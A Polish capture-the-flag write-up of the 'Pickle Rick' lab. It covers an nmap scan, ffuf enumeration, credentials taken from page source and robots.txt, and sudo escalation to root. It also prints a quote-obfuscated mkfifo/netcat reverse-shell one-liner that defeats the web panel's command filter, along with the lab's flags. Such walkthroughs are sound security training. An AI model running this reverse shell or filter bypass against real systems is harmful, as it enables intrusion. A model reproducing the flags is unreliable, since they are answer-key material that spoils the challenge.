 # Pickle Rick v2
IP=10.10.168.136

## Rekonesans
Przeprowadzamy wstępny skan za pomocą narzędzia nmap:

```
sudo nmap -sV -sC 10.10.168.136
```

Otrzymujemy następujące wyniki:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-03 12:31 EDT
Nmap scan report for 10.10.168.136
Host is up (0.054s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 13:13:4c:4e:f5:51:ac:71:e0:1a:98:ac:07:94:6b:b0 (RSA)
|   256 73:60:e3:9c:24:43:d1:15:d6:32:8d:7a:24:3e:6c:98 (ECDSA)
|_  256 4f:0c:c0:e4:44:d6:4e:92:21:d9:47:c9:df:0b:6b:14 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.18 seconds
```

Zostały wykryte dwa porty.

## Skanowanie

### Port 80
Rozpoczynamy od sprawdzenia portu 80:

![80](img/80.JPG)

Widzimy, że celem jest znalezienie trzech tajnych składników. Patrzymy na źródło strony:

![Username](img/Username.JPG)

W komentarzu znajdujemy nazwę użytkownika.

```
R1ckRul3s
```

Przechodzimy do enumeracji katalogów za pomocą narzędzia ffuf:

```
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.26.100/FUZZ -c -e ".php"
```

![Ffuf](img/Ffuf.JPG)

Sprawdzamy folder "robots.txt":

![Robots](img/Robots.JPG)

```
Wubbalubbadubdub
```

Znaleziony ciąg znaków może być hasłem. Sprawdzamy następnie podstronę login.php:

![Login](img/Login.JPG)

Próbujemy się zalogować do systemu za pomocą znalezionych danych do logowania:

```
R1ckRul3s:Wubbalubbadubdub
```

Po zalogowaniu widzimy panel poleceń:

![Portal](img/Portal.JPG)

## Eksploitacja

Za pomocą panelu jesteśmy w stanie komunikować się bezpośrednio z serwerem, jednak większość komend jest zablokowana:

![Disabled](img/Disabled.JPG)

Szukamy obejścia tego zabezpieczenia na stronie [hacktricks.xyz](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions):

![Bypass](img/Bypass.JPG)

Spróbujemy uzyskać dostęp do systemu poprzez reverse shell'a za pomocą zmodyfikowanej komendy. Najpierw nasłuchujemy połączeń za pomocą narzędzia netcat, a następnie wykonujemy komendę:

```
nc -lvnp [Port]
```

```
r""m /tmp/f;m""kfifo /tmp/f;c""at /tmp/f|sh -i 2>&1|n""c [IP] [PORT] >/tmp/f
```

Po jej wykonaniu uzyskujemy dostęp do systemu:

![System](img/System.JPG)

Odczytujemy pierwszy tajny składnik:

![Flag1](img/Flag1.JPG)

```
mr. meeseek hair
```

W pliku clue.txt dostajemy podpowiedź, aby rozejrzeć się po systemie w celu znalezienia innych tajnych składników:

![Clue](img/Clue.JPG)

W katalogu domowym rick'a znajdujemy drugi tajny składnik:

![Flag2](img/Flag2.JPG)

```
1 jerry tear
```

## Zwiększenie poziomu uprawnień

Użytkownik www-data może wykonać wszystkie komendy jako root:

![Sudo](img/Sudo.JPG)

Wykorzystujemy to do zdobycia uprawnień root'a:

![Root](img/Root.JPG)

W katalogu root'a znajdujemy trzeci tajny składnik:

![Flag3](img/Flag3.JPG)

```
fleeb juice
```

Do zobaczenia na kolejnych CTF-ach!

